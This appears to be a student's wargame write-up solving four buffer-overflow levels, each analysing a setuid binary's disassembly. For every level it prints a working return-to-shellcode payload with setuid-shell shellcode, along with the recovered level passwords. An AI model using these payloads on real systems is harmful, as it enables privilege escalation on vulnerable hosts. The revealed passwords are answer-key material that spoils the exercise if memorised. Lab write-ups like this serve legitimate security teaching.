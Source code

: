 ```yaml
---
title: 1-0 Wargame Writeup [lv0~lv3]
tags: assignment1 wargame bof lob lv0 lv1 lv2 lv3
---
```


## 0. lv0 > lv1
```bash
-rwsr-sr-x 1 lv1 lv1 11987 Feb 25  2010 lv1
```
binary "lv1" allows the user to use the permission of user:lv1 upon execution. Let's disassemble this binary

```nasm
   0x08048439 <+9>:	cmp    DWORD PTR [ebp+0x8], 0x1
   0x0804843d <+13>:	jg     0x8048456 <main+38>
```
first, the program checks if argc is 1 and exits the program if true.
If not, program continues

```nasm
   0x08048456 <+38>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048459 <+41>:	add    eax,0x4
   0x0804845c <+44>:	mov    edx,DWORD PTR [eax]
   0x0804845e <+46>:	push   edx
   0x0804845f <+47>:	lea    eax,[ebp-0x100]
   0x08048465 <+53>:	push   eax
   0x08048466 <+54>:	call   0x8048370 <strcpy@plt>
   0x0804846b <+59>:	add    esp,0x8
   0x0804846e <+62>:	lea    eax,[ebp-0x100]
   0x08048474 <+68>:	push   eax
   0x08048475 <+69>:	push   0x80484ec
   0x0804847a <+74>:	call   0x8048350 <printf@plt>  
```
the program then copies data from eax to ebp-0x100 using strcpy and prints the copied data using printf

ebp+0xc contains address for array of pointers that point to argv's. adding 4 to ebp+0xc gives address for argv[1], which contains the value that's being copied to ebp-0x100.

Since the program does not limit buffer size, it's vulnerable to BOF attacks. I used "Return To Shellcode" method to solve this problem.

the payload should contain:
1. nop
2. shellcode 
3. dummy data
4. approximate address of shellcode

following is the payload (260 bytes):
```bash
`python -c 'print "\x90"*165 + "\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "A"*54 +  "\x38\xd0\xff\xff"'`
```
we can get the shell that has the uid of lv1

```bash
$ my-pass
hello newbie!
```
<br>

## 1. lv1 > lv2
```bash
-rwsr-sr-x 1 lv2  lv2  11970 Feb 25  2010 lv2
```
binary "lv2" has the same special permission as the previous "lv1". Let's take a deeper look.
```nasm
   0x08048453 <+35>:	mov    eax,DWORD PTR [ebp+0xc]
   0x08048456 <+38>:	add    eax,0x4
   0x08048459 <+41>:	mov    edx,DWORD PTR [eax]
   0x0804845b <+43>:	push   edx
   0x0804845c <+44>:	lea    eax,[ebp-0x10]
   0x0804845f <+47>:	push   eax
   0x08048460 <+48>:	call   0x8048370 <strcpy@plt>
```
lv2 is similar to previous lv1 but the copy destination is different. Its size is 0x10 which is too small to fit the shellcode (41 bytes).
So, lets use the shellcode stored in argv instead of the buffer.

Our payload should contain:
1. dummy data
2. return address
3. nop
4. shellcode

following is the payload i used:
```bash
`python -c 'print "\x90"*20+"\x30\xd4\xff\xff"+"\x90"*30+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```

we got the shell!
```bash
$ my-pass
tooo easy
```
<br>

## 2. lv2 > lv3
```bash
-rwsr-sr-x 1 lv3  lv3   11824 Feb 25  2010 lv3
```
Same permissions. Lets take a look.
```nasm
   0x080483fe <+6>:	lea    eax,[ebp-0x10]
   0x08048401 <+9>:	push   eax
   0x08048402 <+10>:	call   0x804830c <gets@plt>
```
this program uses gets to store input from stdin to buffer.

payload structure:
1. dummy data
2. return address
3. nop
4. shellcode

payload used:
```bash
(python -c'print "A"*20+"\x30\xd2\xff\xff"+"\x90"*20+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"';cat)
```

we can get the shell by passing this to lv3 via pipe
```bash
my-pass
i dont like stdin
```

<br>

## 3. lv3 > lv4
```bash
-rwsr-sr-x 1 lv4  lv4  12567 Apr 26 13:17 lv4
```
Same permissions. Disassembly time:
```nasm
   0x08048506 <+6>:	cmp    DWORD PTR [ebp+0x8],0x1
   0x0804850a <+10>:	jg     0x8048523 <main+35>
```
First it checks argc and exit if it's 1
```nasm
   0x08048524 <+36>:	mov    DWORD PTR [ebp-0x2c],0x0
   0x0804852b <+43>:	nop
   0x0804852c <+44>:	lea    esi,[esi+eiz*1+0x0]
   0x08048530 <+48>:	mov    eax,DWORD PTR [ebp-0x2c]
   0x08048533 <+51>:	lea    edx,[eax*4+0x0]
   0x0804853a <+58>:	mov    eax,ds:0x8049750
   0x0804853f <+63>:	cmp    DWORD PTR [eax+edx*1],0x0
   0x08048543 <+67>:	jne    0x8048547 <main+71>
   0x08048545 <+69>:	jmp    0x8048587 <main+135>	;for loop exit
   0x08048547 <+71>:	mov    eax,DWORD PTR [ebp-0x2c]
   0x0804854a <+74>:	lea    edx,[eax*4+0x0]
   0x08048551 <+81>:	mov    eax,ds:0x8049750
   0x08048556 <+86>:	mov    edx,DWORD PTR [eax+edx*1]
   0x08048559 <+89>:	push   edx
   0x0804855a <+90>:	call   0x80483f0 <strlen@plt>
   0x0804855f <+95>:	add    esp,0x4
   0x08048562 <+98>:	mov    eax,eax
   0x08048564 <+100>:	push   eax
   0x08048565 <+101>:	push   0x0
   0x08048567 <+103>:	mov    eax,DWORD PTR [ebp-0x2c]
   0x0804856a <+106>:	lea    edx,[eax*4+0x0]
   0x08048571 <+113>:	mov    eax,ds:0x8049750
   0x08048576 <+118>:	mov    edx,DWORD PTR [eax+edx*1]
   0x08048579 <+121>:	push   edx
   0x0804857a <+122>:	call   0x8048430 <memset@plt>	;void * memset ( void * ptr, int value, size_t num );
   0x0804857f <+127>:	add    esp,0xc
   0x08048582 <+130>:	inc    DWORD PTR [ebp-0x2c]
   0x08048585 <+133>:	jmp    0x8048530 <main+48>
```
Then it goes through environment values and overwrites them with zero using memset. Our previous payloads does not make any use of env values, so this shouldn't be a problem.

```nasm
   0x08048587 <+135>:	mov    eax,DWORD PTR [ebp+0xc]	;address of argv array (eax = argv[0])
   0x0804858a <+138>:	add    eax,0x4			;second item of argv array (eax = argv[1])
   0x0804858d <+141>:	mov    edx,DWORD PTR [eax]	;pointer of argv[1] value (edx = *argv[1])
   0x0804858f <+143>:	add    edx,0x2f			;0x2f th char of argv[1] value (edx = *argv[1][0x2f])
   0x08048592 <+146>:	cmp    BYTE PTR [edx],0xff
   0x08048595 <+149>:	je     0x80485b0 <main+176>
```
After the for loop of erasing env's, it compares argv[1] value's 0x2f th byte with 0xff
```nasm
   0x080485b0 <+176>:	mov    eax,DWORD PTR [ebp+0xc]
   0x080485b3 <+179>:	add    eax,0x4
   0x080485b6 <+182>:	mov    edx,DWORD PTR [eax]
   0x080485b8 <+184>:	push   edx
   0x080485b9 <+185>:	lea    eax,[ebp-0x28]
   0x080485bc <+188>:	push   eax
   0x080485bd <+189>:	call   0x8048440 <strcpy@plt>
```
Then it copies argv[1] value to ebp-0x28. Since the buffer size is 0x28, return address should start at 0x2c th byte. Which means 0x2f is the last byte of return address. Considering the fact that i386 uses little-endian, the previous step was meant to check if return address was pointing to an address starting with 0xff.

payload structure should be similar to previous ones:
1. dummy data
2. return address
3. nop
4. shell code

by using:
```bash
`python -c 'print "\x90"*44+"\xa0\xd1\xff\xff"+"\x90"*30+"\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`
```
I got the shell:
```bash
$ my-pass
broken egg
```
 
